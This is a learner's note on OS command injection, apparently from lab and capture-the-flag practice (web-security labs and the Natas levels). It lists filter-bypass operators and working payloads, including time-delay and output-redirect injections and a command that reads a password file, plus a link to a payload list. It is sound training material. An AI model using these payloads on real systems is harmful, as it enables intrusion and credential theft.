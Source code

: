 # OS Injection

## We Know

Using `; & &&` with URL encoding

`${IFS}` to bypass whitespace filter and curly brace expansion

### Lab 2

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

`||` is conditional if right but why use it at the end of the command as well?

Well `||sleep 10;` works but we get a 500 Server Error

`|sleep 10|` too

`;sleep 10` doesn't work so `|` is the only operator that breaks the flow

`&` and `&&` doesn't work at all so ggs

### Lab 3

`||whoami>/var/www/images/hi.txt||`

`/image?filename=hi.txt`

The writable folder, we found cus of these boys - how else would we know?

<div align="left"><figure><img src="../../.gitbook/assets/image (3) (1).png" alt="" width="563"><figcaption></figcaption></figure></div>

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

## Natas

### 9 & 10

<div align="left"><figure><img src="../../.gitbook/assets/image (83).png" alt="" width="417"><figcaption></figcaption></figure></div>

In prev challenge we executed multiple commands in the same line using ;

`; cat /etc/natas_webpass/natas10`

but as we can see the ; is blocked here so what do.

the other standard ways of exec multiple commands include &&, || and those are blocked too.

```
.* /etc/natas_webpass/natas11
```

so `grep -i .* /etc/natas_webpass/natas11 dictionary.txt` is the final output

I've never seen this before nor does this show up in any forums so how legit is this?

This .\* is specific for grep to read the contents of a file.
